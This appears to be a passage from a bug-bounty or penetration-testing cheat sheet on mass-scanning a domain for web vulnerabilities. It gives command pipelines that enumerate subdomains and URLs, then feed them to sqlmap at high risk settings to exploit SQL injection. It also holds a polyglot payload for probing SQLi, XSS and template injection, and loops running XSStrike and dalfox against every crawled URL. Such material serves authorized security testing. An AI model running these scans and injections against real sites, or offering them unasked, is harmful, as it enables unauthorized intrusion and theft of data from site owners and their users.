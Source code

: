 ```console
$ subfinder -d <DOMAIN> -silent -all | httpx -silent -threads 100 | katana -d 4 -jc -ef css,png,svg,ico,woff,gif | tee -a <FILE>
$ cat <FILE> | gf sqli | tee -a <FILE>
$ while read line; do sqlmap -u $line --parse-errors --current-db --invalid-logical --invalid-bignum --invalid-string --risk 3; done < <FILE>
```

## Find basic SQL-Injection (SQLi), Cross-Site Scripting (XSS) and Server-Side Template Injection (SSTI) Vulnerabilities with Magic Payload

```console
'"><svg/onload=alert()>{{7*7}}
```

## Find Cross-Site Scripting (XSS) at Scale

### XSStrike

> https://github.com/s0md3v/XSStrike

> https://github.com/lc/gau

> https://github.com/projectdiscovery/katana

```console
$ echo <DOMAIN> | gau | while read url; do python3 xsstrike.py -u $url --crawl -l 4 -d 5; done
$ echo <DOMAIN> | katana | while read url; do python3 xsstrike.py -u $url --crawl -l 4; done
```

```console
$ subfinder -d <DOMAIN> -all -silent | httpx -silent | katana -silent | Gxss -c 100 | dalfox pipe --skip-bav --skip-mining-all --skip-grepping
```

## Find various Vulnerabilities all at ones

### Prerequisistes

#### Install waybackurls

```console
$ go install github.com/tomnomnom/waybackurls@latest
```

#### Install uro

```console
$ pipx install uro
```

### Execution

First perform `Google Dorking` on your target.
